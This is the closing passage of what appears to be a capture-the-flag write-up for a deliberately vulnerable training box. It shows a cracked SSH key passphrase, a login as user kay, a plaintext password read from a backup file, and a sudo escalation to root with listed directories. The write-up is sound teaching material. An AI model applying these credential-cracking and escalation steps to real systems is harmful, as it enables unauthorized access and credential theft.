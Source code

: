 ![John The Ripper 3][JTR 3]

Our password is `beeswax`. Now we can login to `SSH` as Kay and get our final flag.

```
$ ssh -i id_rsa kay@10.0.0.90
Enter passphrase for key 'id_rsa':

kay@basic2:~$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo

kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Our final flag is `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`. Thus we’ve finished our box. 

### Additional Flag
The author of the box has left us an extra flag that we can capture. To do that we must login as root and navigate to 
`/root`.

```
kay@basic2:~$ sudo bash
[sudo] password for kay:

root@basic2:~# cd /root

root@basic2:/root# ls -la
total 28
drwx------  3 root root 4096 Apr 23  2018 .
drwxr-xr-x 24 root root 4096 Apr 23  2018 ..
-rw-------  1 root root  510 Apr 23  2018 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root 1017 Apr 23  2018 flag.txt
drwxr-xr-x  2 root root 4096 Apr 18  2018 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
```


[Homepage]:     /images/posts/2019-06-08-thm-basic_pentesting/Homepage.png
[Development]:  /images/posts/2019-06-08-thm-basic_pentesting/Developement.png
[Wordlist]:     https://gist.github.com/Arszilla/26afd42bddc5f0094a33f5c4db24f737
[Sparta 1]:     /images/posts/2019-06-08-thm-basic_pentesting/Sparta%201.png
[Sparta 2]:     /images/posts/2019-06-08-thm-basic_pentesting/Sparta%202.png
[ssh2john]:     https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/ssh2john.py
[JTR 1]:        /images/posts/2019-06-08-thm-basic_pentesting/John%20The%20Ripper%201.png
[JTR 2]:        /images/posts/2019-06-08-thm-basic_pentesting/John%20The%20Ripper%202.png
[JTR 3]:        /images/posts/2019-06-08-thm-basic_pentesting/John%20The%20Ripper%203.png